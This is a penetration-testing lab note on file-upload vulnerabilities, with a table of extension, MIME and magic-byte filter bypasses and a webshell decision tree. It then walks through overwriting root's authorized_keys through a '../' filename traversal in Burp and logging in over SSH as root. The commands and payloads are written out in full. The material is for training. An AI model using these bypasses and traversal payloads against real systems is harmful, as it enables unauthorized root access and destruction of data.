

---
tags:
  - phase/exploitation
  - rce
  - shell
---

# Using non-executable files

> [!tip] Quick Reference — File Upload
> | Bypass | Technique |
> |--------|-----------|
> | Extension filter | `.php5`, `.phtml`, `.phar`, `.php.jpg` |
> | MIME type | Change Content-Type to `image/jpeg` in Burp |
> | Magic bytes | Prepend `GIF89a` or `ÿØÿ` to PHP file |
> | Double extension | `shell.php.jpg` (if server executes first ext) |
> | Case variation | `shell.PhP`, `shell.PHP` |
> | Null byte | `shell.php%00.jpg` (old PHP) |

## Decision Tree

```
File upload functionality found?
├── [1] What extensions are allowed?
│   ├── Try uploading shell.php directly
│   │   ├── Accepted → upload and navigate to file
│   │   └── Blocked → try bypass techniques
│   │
├── [2] Extension bypasses
│   ├── Alternate PHP: .php5 .phtml .phar .php3
│   ├── Double ext: shell.php.jpg
│   └── Case: shell.PhP
│
├── [3] Content-Type bypass (Burp)
│   └── Upload .php file, intercept in Burp
│       └── Change Content-Type: application/x-php → image/jpeg
│
├── [4] Magic bytes bypass
│   └── Add GIF89a; to start of PHP file, save as shell.php.gif
│
├── [5] Find where files are uploaded
│   ├── Check page source for upload path
│   ├── Gobuster the uploads directory
│   └── Common paths: /uploads/ /files/ /media/ /images/
│
└── File accessible + executable → GET /uploads/shell.php?cmd=id
```

## Visual Flow



> [!success] What success looks like
> After overwriting root's `authorized_keys`, connecting with `ssh -p 2222 -i fileup root@mountaindesserts.com` accepts your key and drops you to a root prompt like `root@76b77a6eae51:~#`.

> [!danger] Common errors
> - Can't tell if the traversal path was used → the response may just echo your filename; this attack is often blind, so assume and test by connecting.
> - SSH host key error on a new box → `rm ~/.ssh/known_hosts` before connecting (the saved key is from a different machine).
> - `../` sequences stripped from the filename → try encoding them or backslashes. See [[🔣 Encoding Reference]].
> - Root has no SSH access → this only works if root login via key is allowed; if not, you have no other listed vector here.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> Even when you can't upload a file the server will *run*, an upload can still be dangerous: by putting `../` in the filename you control *where* the file is saved. Overwriting a sensitive file like `authorized_keys` turns a harmless-looking upload into full SSH access.

## Resources
- [HackTricks — File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [PayloadsAllTheThings — Upload Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)


In this section, we'll examine why flaws in file uploads can have severe consequences even if there is no way for an attacker to execute the uploaded files. We may encounter scenarios where we find an unrestricted file upload mechanism but cannot exploit it. One example for this is Google Drive, where we can upload any file, but cannot leverage it to get system access. In situations such as this, we need to leverage another vulnerability such as Directory Traversal to abuse the file upload mechanism.

> [!info] Updated app on Linux
> Browse the updated "Mountain Desserts" app at `http://mountaindesserts.com:8000`. A banner ("moved our web application to Linux again!") indicates it now runs on Linux, and it still exposes a file-upload form.


The `index.php` and `admin.php` files now return `404 page not found`, so the server no longer runs PHP — an uploaded PHP webshell wouldn't execute. Confirm this, then capture a `test.txt` upload in Burp to work with:

curl http://mountaindesserts.com:8000/index.php
curl http://mountaindesserts.com:8000/meteor/index.php
curl
[http://mountaindesserts.com:8000/admin.php](http://mountaindesserts.com:8000/admin.php)
Web applications using Apache, Nginx or other dedicated web servers often run with specific users, such as www-data on Linux. Traditionally on Windows, the IIS web server runs as a Network Service account, a passwordless built-in Windows identity with low privileges. Starting with IIS version 7.5, Microsoft introduced the IIS Application Pool Identities. These are virtual accounts running web applications grouped by application pools. Each application pool has its own pool identity, making it possible to set more precise permissions for accounts running web applications.

Let's try to overwrite the authorized_keys file in the home directory for root. If this file contains the public key of a private key we control, we can access the system via SSH as the root user. To do this, we'll create an SSH keypair with ssh-keygen, as well as a file with the name authorized_keys containing the previously created public key.


ssh-keygen
fileup
cat fileup.pub > authorized_keys


The target system runs an SSH server on port 2222. Let's use the corresponding private key of the public key in the authorized_keys file to try to connect to the system. We'll use the -i parameter to specify our private key and -p for the port.

In the Directory Traversal Learning Unit, we connected to port 2222 on the host mountaindesserts.com and our Kali system saved the host key of the remote host. Since the target system of this section is a different machine, SSH will throw an error because it cannot verify the host key it saved previously. To avoid this error, we'll delete the known_hosts file before we connect to the system. This file contains all host keys of previous SSH connections.


rm ~/.ssh/known_hosts
ssh -p 2222 -i fileup root@mountaindesserts.com
yes


Labs:
Follow the steps above on VM #1 to overwrite the authorized_keys file with the file upload mechanism. Connect to the system via SSH on port 2222 and find the flag in /root/flag.txt.

> [!info] Upload succeeds — and a testing tip
> The form accepts the file ("Successfully Uploaded File: test.txt"). When testing any upload form, also try uploading the same file twice: a "file already exists" response lets you brute-force existing filenames on the server, while an error message may leak the programming language or web technologies in use.


> [!info] Inject a traversal path into the filename
> Send the `test.txt` upload POST to Burp Repeater. To test for directory traversal, modify the `filename` field so it contains a relative path, e.g. `../../../../test.txt`, and resend — this checks whether the app lets you write the file outside the web root.


> [!info] The attack is blind
> The response echoes the `../` sequences back, but that only reflects your filename — it doesn't prove the traversal path was used to place the file (the app may sanitize it internally). With no other vector, assume it worked and try to blindly overwrite a sensitive file for system access.
>
> Caution: blindly overwriting files in a real engagement can destroy data or take down production systems.


> [!info] Overwrite root's authorized_keys
> Generate a keypair with `ssh-keygen` (saved as `fileup`) and build an `authorized_keys` file from the public key: `cat fileup.pub > authorized_keys`. Upload that file, intercepting in Burp, and change the `filename` to a traversal path targeting root's key store:
> ```
> ../../../../../../../root/.ssh/authorized_keys
> ```
> Then forward the request to write the file into place.


> [!info] Caveat on targeting root
> If the overwrite succeeded, your private key should now grant SSH access as root. Root often can't log in via SSH, but since this blind upload gives no way to enumerate other users (no `/etc/passwd` read), root is the only target available here.


Connecting with `ssh -p 2222 -i fileup root@mountaindesserts.com` (after `rm ~/.ssh/known_hosts` and accepting the new host key) succeeds, landing a root prompt like `root@76b77a6eae51:~#`. The overwritten `authorized_keys` gave full SSH access as root — a reminder that when you can't upload executable files, other vectors like this can still lead to system access.

---
%% graph-links %%
## Related
- [[Using executable files]]
- [[Local file inclusion (LFI)]]

> [!info] Navigation
> Section: [[Web Applications/Common Web Application Attacks/File Upload Vulnerabilities/_index|File Upload Vulnerabilities]] · Home: [[🏠 Home]]

